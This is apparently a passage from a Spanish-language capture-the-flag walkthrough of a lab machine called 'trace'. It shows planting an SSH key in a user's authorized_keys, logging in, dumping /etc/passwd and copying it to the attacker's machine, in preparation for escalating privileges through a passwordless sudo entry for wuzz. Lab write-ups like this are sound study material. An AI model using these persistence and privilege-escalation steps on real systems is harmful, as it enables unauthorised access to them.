 ```shell
User nel may run the following commands on trace:
    (root) NOPASSWD: /usr/bin/wuzz
nel@trace:/home/yan$ mkdir /home/nel/.ssh/
nel@trace:/home/yan$ nano /home/nel/.ssh/authorized_keys
```
```shell
ssh nel@10.0.2.127
The authenticity of host '10.0.2.127 (10.0.2.127)' can't be established.
ED25519 key fingerprint is SHA256:3dqq7f/jDEeGxYQnF2zHbpzEtjjY49/5PvV5/4MMqns.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:239: [hashed name]
    ~/.ssh/known_hosts:251: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.127' (ED25519) to the list of known hosts.
nel@trace:~$
```
Ahora copiaremos el contenido del /etc/passwd de la máquina.
```shell
nel@trace:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
_rpc:x:106:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:107:65534::/var/lib/nfs:/usr/sbin/nologin
yan:x:1000:1000:yan,,,:/home/yan:/bin/bash
nel:x:1001:1001::/home/nel:/bin/bash
```
Y lo pegamos en nuestra máquina en cualquier directorio.
```shell
$ nano passwd
$ cat passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```